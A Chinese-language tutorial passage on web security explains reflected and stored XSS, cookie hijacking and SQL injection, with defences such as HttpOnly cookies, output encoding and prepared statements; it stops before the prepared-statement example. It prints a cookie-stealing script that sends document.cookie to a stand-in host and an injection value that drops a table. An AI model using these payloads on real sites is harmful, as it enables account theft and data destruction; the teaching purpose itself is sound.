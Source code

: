 一、跨站脚本攻击（XSS）
跨站脚本攻击的英文全称是Cross Site Script，为了和样式表区分，缩写为XSS。发生的原因是网站将用户输入的内容输出到页面上，在这个过程中可能有恶意代码被浏览器执行。

跨站脚本攻击可以分为两种：

1). 反射型XSS

它是通过诱使用户打开一个恶意链接，服务端将链接中参数的恶意代码渲染到页面中，再传递给用户由浏览器执行，从而达到攻击的目的。如下面的链接：

http://a.com/a.jsp?name=xss<script>alert(1)</script> 
a.jsp将页面渲染成下面的html：

Hello xss<script>alert(1)</script> 
这时浏览器将会弹出提示框。

2). 持久型XSS

持久型XSS将恶意代码提交给服务器，并且存储在服务器端，当用户访问相关内容时再渲染到页面中，以达到攻击的目的，它的危害更大。

比如，攻击者写了一篇带恶意JS代码的博客，文章发表后，所有访问该博客文章的用户都会执行这段恶意JS。

Cookie劫持
Cookie中一般保存了当前用户的登录凭证，如果可以得到，往往意味着可直接进入用户帐户，而Cookie劫持也是最常见的XSS攻击。以上面提过的反射型XSS的例子来说，可以像下面这样操作：

首先诱使用户打开下面的链接：

http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script> 
用户打开链接后，会加载b.js，并执行b.js中的代码。b.js中存储了以下JS代码：

var img = document.createElement("img"); img.src = "http://b.com/log?" + escape(document.cookie); document.body.appendChild(img); 
上面的代码会向b.com请求一张图片，但实际上是将当前页面的cookie发到了b.com的服务器上。这样就完成了窃取cookie的过程。

防御Cookie劫持的一个简单的方法是在Set-Cookie时加上HttpOnly标识，浏览器禁止JavaScript访问带HttpOnly属性的Cookie。

XSS的防御
1). 输入检查

对输入数据做检查，比如用户名只允许是字母和数字，邮箱必须是指定格式。一定要在后台做检查，否则数据可能绕过前端检查直接发给服务器。一般前后端都做检查，这样前端可以挡掉大部分无效数据。

对特殊字符做编码或过滤，但因为不知道输出时的语境，所以可能会做不适当的过滤，最好是在输出时具体情况具体处理。

2). 输出检查

对渲染到HTML中内容执行HtmlEncode，对渲染到JavaScript中的内容执行JavascriptEncode。

另外还可以使用一些做XSS检查的开源项目。

二、SQL注入
SQL注入常常会听到，它与XSS类似，是由于用户提交的数据被当成命令来执行而造成的。下面是一个SQL注入的例子：

String sql = "select * from user where username = '" + username + "'"; 
像上面的SQL语句，如果用户提交的username参数是leo，则数据库执行的SQL为：

select * from user where username = 'leo' 
但如果用户提交的username参数是leo’; drop table user–，那执行的SQL为：

select * from user where username = 'leo'; drop table user--' 
在查询数据后，又执行了一个删除表的操作，这样的后果非常严重。

SQL注入的防御
防止SQL注入最好的方法是使用预编译语句，如下面所示：
